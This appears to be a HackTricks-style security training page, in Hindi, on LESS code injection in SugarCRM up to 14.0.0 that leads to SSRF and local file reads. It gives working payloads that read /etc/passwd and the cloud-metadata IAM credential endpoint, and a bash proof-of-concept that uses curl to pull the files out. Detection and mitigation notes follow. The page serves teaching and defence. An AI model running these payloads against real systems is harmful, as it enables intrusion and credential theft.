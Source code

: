 # LESS कोड इंजेक्शन जो SSRF और लोकल फ़ाइल पढ़ने की ओर ले जाता है

{{#include ../banners/hacktricks-training.md}}

## अवलोकन

LESS एक लोकप्रिय CSS प्री-प्रोसेसर है जो वेरिएबल, मिक्सिन, फ़ंक्शन और शक्तिशाली `@import` निर्देश को जोड़ता है। संकलन के दौरान LESS इंजन **`@import`** बयानों में संदर्भित संसाधनों को **फेच** करेगा और `(inline)` विकल्प का उपयोग करने पर उनके सामग्री को परिणामी CSS में एम्बेड ("इनलाइन") करेगा।

जब एक एप्लिकेशन **उपयोगकर्ता-नियंत्रित इनपुट** को एक स्ट्रिंग में जोड़ता है जिसे बाद में LESS कंपाइलर द्वारा पार्स किया जाता है, तो एक हमलावर **मनमाना LESS कोड इंजेक्ट** कर सकता है। `@import (inline)` का दुरुपयोग करके हमलावर सर्वर को पुनः प्राप्त करने के लिए मजबूर कर सकता है:

* `file://` प्रोटोकॉल के माध्यम से स्थानीय फ़ाइलें (जानकारी का खुलासा / लोकल फ़ाइल समावेशन)।
* आंतरिक नेटवर्क या क्लाउड मेटाडेटा सेवाओं पर दूरस्थ संसाधन (SSRF)।

यह तकनीक वास्तविक दुनिया के उत्पादों में देखी गई है जैसे **SugarCRM ≤ 14.0.0** (`/rest/v10/css/preview` एंडपॉइंट)।

## शोषण

1. एक पैरामीटर की पहचान करें जो LESS इंजन द्वारा संसाधित स्टाइलशीट स्ट्रिंग के अंदर सीधे एम्बेड किया गया है (जैसे कि SugarCRM में `?lm=`)।
2. वर्तमान बयान को बंद करें और नए निर्देश इंजेक्ट करें। सबसे सामान्य प्राइमिटिव हैं:
* `;`  – पिछले घोषणा को समाप्त करता है।
* `}`  – पिछले ब्लॉक को बंद करता है (यदि आवश्यक हो)।
3. मनमाने संसाधनों को पढ़ने के लिए `@import (inline) '<URL>';` का उपयोग करें।
4. वैकल्पिक रूप से आयात के बाद एक **मार्कर** (`data:` URI) इंजेक्ट करें ताकि संकलित CSS से फेच की गई सामग्री को निकालना आसान हो सके।

### लोकल फ़ाइल पढ़ना
```
1; @import (inline) 'file:///etc/passwd';
@import (inline) 'data:text/plain,@@END@@'; //
```
`/etc/passwd` की सामग्री HTTP प्रतिक्रिया में `@@END@@` मार्कर से ठीक पहले दिखाई देगी।

### SSRF – क्लाउड मेटाडेटा
```
1; @import (inline) "http://169.254.169.254/latest/meta-data/iam/security-credentials/";
@import (inline) 'data:text/plain,@@END@@'; //
```
### स्वचालित PoC (SugarCRM उदाहरण)
```bash
#!/usr/bin/env bash
# Usage: ./exploit.sh http://target/sugarcrm/ /etc/passwd

TARGET="$1"        # Base URL of SugarCRM instance
RESOURCE="$2"      # file:// path or URL to fetch

INJ=$(python -c "import urllib.parse,sys;print(urllib.parse.quote_plus(\"1; @import (inline) '$RESOURCE'; @import (inline) 'data:text/plain,@@END@@';//\"))")

curl -sk "${TARGET}rest/v10/css/preview?baseUrl=1&lm=${INJ}" | \
sed -n 's/.*@@END@@\(.*\)/\1/p'
```
## Detection

* अस्वीकृत क्वेरी पैरामीटर वाले गतिशील रूप से उत्पन्न `.less` या `.css` प्रतिक्रियाओं की तलाश करें।
* कोड समीक्षा के दौरान, ऐसे निर्माणों की खोज करें जैसे `"@media all { .preview { ... ${userInput} ... } }"` जो LESS रेंडर फ़ंक्शंस को पास किए जाते हैं।
* शोषण के प्रयासों में अक्सर `@import`, `(inline)`, `file://`, `http://169.254.169.254`, आदि शामिल होते हैं।

## Mitigations

* LESS कंपाइलर को अस्वीकृत डेटा न दें।
* यदि गतिशील मान आवश्यक हैं, तो उन्हें सही तरीके से **escape**/sanitize करें (जैसे, संख्यात्मक टोकन, व्हाइटलिस्ट तक सीमित करें)।
* जब संभव हो, `(inline)` आयातों का उपयोग करने की क्षमता को अक्षम करें, या अनुमत प्रोटोकॉल को `https` तक सीमित करें।
* निर्भरताओं को अद्यतित रखें – SugarCRM ने संस्करण 13.0.4 और 14.0.1 में इस समस्या को पैच किया।

## Real-World Cases

| Product | Vulnerable Endpoint | Impact |
|---------|--------------------|--------|
| SugarCRM ≤ 14.0.0 | `/rest/v10/css/preview?lm=` | Unauthenticated SSRF & local file read |

## References

* [SugarCRM ≤ 14.0.0 (css/preview) LESS Code Injection Vulnerability](https://karmainsecurity.com/KIS-2025-04)
* [SugarCRM Security Advisory SA-2024-059](https://support.sugarcrm.com/resources/security/sugarcrm-sa-2024-059/)
* [CVE-2024-58258](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-58258)

{{#include ../banners/hacktricks-training.md}}
